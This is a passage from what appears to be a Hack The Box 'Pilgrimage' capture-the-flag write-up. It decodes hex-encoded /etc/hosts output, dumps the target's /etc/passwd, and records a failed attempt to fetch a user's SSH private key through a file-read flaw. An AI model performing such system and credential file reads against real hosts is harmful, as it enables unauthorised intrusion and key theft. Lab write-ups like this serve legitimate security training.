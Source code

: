 ```bash
                                                                           
┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ python -c 'print(bytes.fromhex("3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c6772696d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c6520666f7220495076362063617061626c6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465730a666630323a3a32206970362d616c6c726f75746572730a").decode("utf-8"))'                                                   
127.0.0.1       localhost
127.0.1.1       pilgrimage pilgrimage.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Let's read `/etc/passwd`.

```ruby
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

`emily` is expected to be a next user.

I tried to fetch `/home/emily/.ssh/id_rsa` but failed. Probably not exists.
Instead, I found `sqlite` file hint from `login.php` on the previously extracted repository.

